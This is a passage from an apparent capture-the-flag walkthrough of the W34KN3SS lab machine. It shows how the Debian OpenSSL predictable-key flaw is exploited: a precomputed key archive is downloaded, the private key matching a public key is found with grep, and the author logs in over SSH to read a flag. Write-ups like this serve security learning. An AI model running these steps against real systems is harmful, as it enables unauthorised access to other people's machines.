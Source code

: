 ## Exploitation
### OpenSSL

This openssl version is vulnerable to **Predictable PRNG Brute Force SSH**, it's that the debian openssl issue leads that there are only 65.536 possible ssh 
keys generated, cause the only entropy is the pid of the process generating the key.


Reading the exploit proof of concept, This indicates that you have to download a compressed file with all the generated keys, so I download it and decompress it.

```bash
root@kali:~$ wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2

root@kali:~$ tar xvf 5622.tar.bz2
```

Then I did a grep with the public key to find the private key.

```bash
root@kali:~$ grep -lr AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw rsa/
rsa/2048/4161de56829de2fe64b9055711f531c1-2537.pub
```

### Access via SSH

I log in to SSH with the key found and I captured the first flag.

```bash
root@kali:~$ ssh n30@192.168.179.155 -i rsa/2048/4161de56829de2fe64b9055711f531c1-2537
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Tue Aug 14 13:29:20 2018 from 192.168.209.1
n30@W34KN3SS:~$ ls
code  user.txt
n30@W34KN3SS:~$ cat user.txt 
25e3cd678875b601425c9356c8039f68
```

In the n30's home directory there's a file called code, this is a compiled python file that generates a hash.

```bash
n30@W34KN3SS:~$ file code 
code: python 2.7 byte-compiled
n30@W34KN3SS:~$ python code
[+]System Started at : Wed Oct 13 20:05:23 2021
[+]This binary should generate unique hash for the hardcoded login info
[+]Generating the hash ..
[+]Your new hash is : fa82870b0487f9a92a4cc089e989f4e97a61a8da9fe1ff856c75ada3039030c3
[+]Done
```
